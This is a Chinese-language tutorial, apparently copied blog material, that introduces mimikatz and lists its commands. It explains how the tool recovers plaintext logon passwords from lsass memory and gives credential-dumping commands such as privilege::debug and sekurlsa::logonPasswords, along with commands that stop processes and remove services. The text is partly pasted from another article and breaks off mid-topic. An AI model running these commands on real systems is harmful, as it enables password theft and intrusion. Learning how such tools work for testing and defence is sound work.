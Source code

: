 # mimikatz

mimikatz是一款功能强大的轻量级调试神器，通过它你可以提升进程权限注入进程读取进程内存，当然他最大的亮点也是让阿刚最感兴趣的就是他可以直接从 lsass中获取当前处于Active系统的登录密码， lsass是微软Windows系统的安全机制它主要用于本地安全和登陆策略，通常在登陆系统时输入密码之后，密码便会储存在 lsass内存中，经过其 wdigest 和 tspkg 两个模块调用后，对其使用可逆的算法进行加密并存储在内存之中， 而mimikatz正是通过对lsass的逆算获取到明文密码！也就是说只要你不重启电脑，就可以通过他获取到登陆密码，只限当前登陆系统！

下面简单的介绍一下神器的命令

cls-----------------------------清屏
exit----------------------------退出
version------------查看mimikatz的版本
system::user-----查看当前登录的系统用户
system::computer-------查看计算机名称
process::list------------------列出进程
process::suspend 进程名称 -----暂停进程
process::stop 进程名称---------结束进程
process::modules --列出系统的核心模块及所在位置
service::list---------------列出系统的服务
service::remove-----------移除系统的服务
service::start stop 服务名称--启动或停止服务
privilege::list---------------列出权限列表
privilege::enable--------激活一个或多个权限
privilege::debug-----------------提升权限
nogpo::cmd------------打开系统的cmd.exe
nogpo::regedit -----------打开系统的注册表
nogpo::taskmgr-------------打开任务管理器
ts::sessions-----------------显示当前的会话
ts::processes------显示进程和对应的pid情况等
sekurlsa::wdigest-----获取本地用户信息及密码
sekurlsa::tspkg------获取tspkg用户信息及密码
sekurlsa::logonPasswords--获登陆用户信息及密码
在网上找了一篇，但是和我的工具不是一样

文章地址：http://www.2cto.com/article/201407/318229.html

ps:copy~

mimikatz是法国的一位神牛写的神器,该神器有很强大的功能,据说已经被集成在metasplo

1.常规的操作使用命令

mimikatz # cls -->清屏,类似dos命令cls.

mimikatz # exit -->退出mimikatz.

mimikatz #version -->查看当前的mimikatz的版本.

随便输入"xxx::"，会提示"modules:'xxx' intr0uvable",大概意思就是你输入的命令不存在，然后会列出所有可用的命令

mimikatz命令

查看列表中命令的具体参数同样可以输入"命令::"来查看，比如:"inject::",如图：

mimikatz使用方法

可以看到命令inject的具体参数有pid,process,service等……

2.系统方面的操作使用命令:system

mimikatz #system::user -->查看当前登录的系统用户

mimikazt #system::computer -->返回当前的计算机名称

3.在服务器终端的操作命令: ts

mimikatz #ts::sessions -->显示当前的会话

mimikatz #ts::processes windows-d.vm.nirvana.local -->显示服务器的进程和对应的pid情况等。

4.系统服务相关的操作使用命令:service

5.系统进程相关操作的使用命令:process

6.系统线程相关操作使用命令:thread

7.系统句柄相关操作使用命令:handle

8.加密相关操作使用命令:crypto

9.注入操作使用命令:inject

具体的各种神器功能使用有待神人挖掘，表示不会外文压力很大……

分享从lsass抓去系统的明文密码案例

